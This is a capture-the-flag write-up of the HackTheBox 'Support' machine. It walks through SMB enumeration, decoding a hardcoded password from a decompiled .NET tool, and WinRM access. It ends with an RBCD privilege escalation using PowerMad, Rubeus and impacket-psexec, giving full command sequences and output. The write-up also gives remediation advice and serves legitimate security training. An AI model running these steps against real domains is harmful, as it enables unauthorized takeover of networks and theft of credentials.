



# SUPPORT



This write-up explores the attack path against the Support machine on HackTheBox, beginning with Active Directory enumeration and leveraging exposed credentials to gain a foothold. By decompiling a .NET executable, we uncover hardcoded credentials that grant access to sensitive network services. With careful privilege escalation, we ultimately achieve remote code execution on the domain controller, demonstrating real-world techniques applicable to Active Directory exploitation.

## Reconnaissance and Enumeration

The initial phase began with an **Nmap** scan that revealed multiple open ports associated with Active Directory services.

```sh
❯ sudo nmap -sC -sV -T4 -vv -oA nmapScans/support 10.129.243.69
Command executed at: 2025-03-04 16:17:59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 16:17 PST
<SNIP>
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus 
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-05 00:18:11Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Nmap done: 1 IP address (1 host up) scanned in 60.19 seconds
```

### **Did You Know? - SMB & LDAP**

> **SMB (Port 445)** is commonly targeted in attacks due to its role in file sharing and authentication. Vulnerabilities like EternalBlue (MS17-010) have been used in major cyberattacks, including WannaCry.

> **LDAP (Ports 389 & 3268)** is crucial for querying Active Directory. Misconfigurations can allow unauthorized enumeration of users and groups, revealing sensitive information.

Next, **SMB enumeration** showed that anonymous access was enabled. Listing available shares revealed the `support-tools` share, which contained a potentially interesting file: `UserInfo.exe.zip`.

```sh
❯ smbclient -N -L //10.129.243.69
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share 
```

```sh
❯ smbclient -N //10.129.243.69/support-tools/
smb: \> dir support-tools
.                                   D        0  Wed Jul 20 10:01:06 2022
..                                  D        0  Sat May 28 04:18:25 2022
...
UserInfo.exe.zip                    A   277499  Wed Jul 20 10:01:07 2022
```

The file was then downloaded for further analysis.

## Analysis and Exploitation

Research indicated that **UserInfo.exe** is a tool used to display Active Directory user information. The accompanying **UserInfo.exe.config** file revealed that it was built using the **.NET Framework**.

### **Did You Know? - Decompiling .NET Programs**

> **dnSpy** is a tool that can decompile .NET programs back into source code.

Upon decompiling the executable using dnSpy, a set of hardcoded credentials was discovered.


The `LdapQuery()` method queries `support.htb` with username `support` and a password obtained from the `getPassword()` method.
The code snippet below from the `getPassword()` method shows how an encrypted password is decrypted using a static key:

```csharp
public static string getPassword()
{
    byte[] array = Convert.FromBase64String(Protected.enc_password);
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
    }
    return Encoding.Default.GetString(array);
}

private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

A simple Python script was then used to reverse the encoding, resulting in the decrypted password:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('ascii')

decoded_bytes = base64.b64decode(enc_password)
decrypted_bytes = bytearray(decoded_bytes)
for i in range(len(decoded_bytes)):
    decrypted_bytes[i] = decoded_bytes[i] ^ key[i % len(key)] ^ 223

decrypted_password = decrypted_bytes.decode('utf-8', errors='ignore')
print("Decrypted Password:", decrypted_password)
```

This script revealed the plaintext password:

```txt
Decrypted Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Using this, an LDAP query retrieved additional account details:

```sh
❯ ldapsearch -x -H ldap://support.htb -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
...
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful 
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
...
```

The LDAP output revealed the support user’s membership in the Shared Support Accounts group and provided the password:

```txt
support:Ironside47pleasure40Watchful
```

This password was then used to establish a WinRM session on port 5985:

```sh
❯ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

A quick check on the desktop confirmed the user flag:

```powershell
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
38a856xxxxxxxxxxxxxx898dc8
```

### **Defensive Countermeasure**

> Avoid storing credentials in compiled applications. Use **secure vaults** or environment variables instead.

## Privilege Escalation via RBCD

Further enumeration using **SharpHound** and **BloodHound** showed that the `support` user had **GenericAll** privileges over the domain controller, making an **RBCD attack** viable.



### **Did You Know? - RBCD attacks**

> Resource-Based Constrained Delegation (RBCD) is a Windows feature that allows a computer account to delegate authentication on behalf of a user to specific services. Originally introduced to restrict unrestricted delegation, RBCD can be abused if an attacker gains control over a machine account with delegation privileges. This allows impersonation of privileged users like Administrator, leading to full domain compromise if misconfigured.

A rogue computer account, **FAKE01**, was added to the domain using PowerMad:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> import-module .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
```

Verification of the new account was performed using **PowerView**:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer FAKE01
```

This also gave us the ObjectSID, which is used to identify our **FAKE01** object in the following commands.

```powershell
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-6101
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
```

The new machine account was then given permissions to impersonate users

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6101)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer "DC.SUPPORT.HTB" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

With GenericAll privileges and RBCD in place, **FAKE01** can be used to impersonate the **Administrator**.
An RC4 hash for **FAKE01** was generated with Rubeus:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /password:'P@ssw0rd123!' /user:fake01 /domain:SUPPORT.HTB

...
[*] Action: Calculate Password Hash(es)

[*] Input password             : P@ssw0rd123!
[*] Input username             : fake01
[*] Input domain               : SUPPORT.HTB
[*] Salt                       : SUPPORT.HTBfake01
[*]       rc4_hmac             : 7DFA0531D73101CA080C7379A9BFF1C7
...
```

Then, a Kerberos ticket was requested for the **Administrator** account:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe s4u /user:fake01 /rc4:7DFA0531D73101CA080C7379A9BFF1C7 /impersonateuser:Administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt /nowrap

...
[*] base64(ticket.kirbi) for SPN 'cifs/DC.SUPPORT.HTB':

doIGYDCCBlygAwIBBaEDAgEW...
...5TVVBQT1JULkhUQg==

[+] Ticket successfully imported!
```

After confirming the ticket was cached using `klist`, the base64 kirbi ticket was converted to a ccache file:

```sh
❯ base64 -d administrator.ticket.kirbi.b64 > administrator.ticket.kirbi
❯ sudo impacket-ticketConverter administrator.ticket.kirbi administrator.ccache
```

Finally, an **impacket-PsExec** session was established to gain domain admin access:

```sh
❯ KRB5CCNAME=administrator.ccache 
❯ sudo impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
...
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop> type root.txt
b34047xxxxxxxxxxxxx73db50
```


## Findings and Remediation

### Findings

- **Anonymous SMB Access:** The configuration allowed anonymous listings, exposing sensitive shares.
- **Insecure File Sharing:** The `support-tools` share contained exploitable files, such as `UserInfo.exe.zip`.
- **Hardcoded Credentials:** The decompiled `UserInfo.exe` revealed hardcoded credentials that facilitated further exploitation.
- **Excessive AD Privileges:** The `support` user’s membership in a group with GenericAll rights enabled domain controller compromise via RBCD.

### Remediation

- **SMB Hardening:** Disable anonymous access and enforce strict authentication protocols.
- **Secure File Shares:** Limit access to sensitive shares to authorized users only.
- **Code Security:** Avoid embedding hardcoded credentials; instead, implement secure credential management and conduct regular code audits.
- **Active Directory Audits:** Regularly review and restrict group memberships and privileges, ensuring adherence to the principle of least privilege.

## Lessons Learned

This engagement highlights the risks inherent in misconfigured services and insecure coding practices. Decompiling .NET applications can easily expose sensitive data that developers may assume is hidden. Moreover, default domain settings—such as allowing the creation of multiple computer accounts and overly permissive rights—can be exploited to escalate privileges. With GenericAll access over critical systems, attackers can leverage RBCD to impersonate high-privilege accounts, leading to full network compromise.

## Resources

- [HackTheBox - Support CTF](https://app.hackthebox.com/machines/484)
- [Understanding RBCD attacks](https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/)

---

[⬅ Back to Home](/)
